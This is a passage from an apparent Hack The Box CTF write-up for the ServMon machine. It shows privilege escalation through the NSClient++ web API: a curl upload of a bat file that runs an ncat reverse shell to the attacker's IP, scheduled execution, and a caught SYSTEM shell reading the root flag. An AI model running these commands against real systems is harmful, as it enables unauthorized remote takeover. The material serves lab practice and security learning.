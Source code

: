 Run the following two commands to upload the `bat` file and execute it in 1 minute intervals:

```cmd
cd C:\temp
```

```cmd
curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\temp\ncat.exe 10.10.14.21 443 -e cmd.exe"
ew2x6SsGTxjRwXOT
```

```cmd
curl -s -k -u admin "https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m"
ew2x6SsGTxjRwXOT
```

![[ServMon.htb-15.png]]

##### root flag capture

Excellent! we get the system privilege shell:

```cmd
whoami
ipconfig
type C:\Users\Administrator\Desktop\root.txt
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/ServMon]
└─$ nc -lvp 443
listening on [any] 443 ...
10.129.40.157: inverse host lookup failed: Unknown host
connect to [10.10.14.21] from (UNKNOWN) [10.129.40.157] 49723
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::15f
   IPv6 Address. . . . . . . . . . . : dead:beef::f87c:7bb8:dd61:3a95
   Link-local IPv6 Address . . . . . : fe80::f87c:7bb8:dd61:3a95%6
   IPv4 Address. . . . . . . . . . . : 10.129.40.157
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%6
                                       10.129.0.1

C:\Program Files\NSClient++>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
182c6d45663ac524afda1e3228035b12

```

![[ServMon.htb-13.png]]
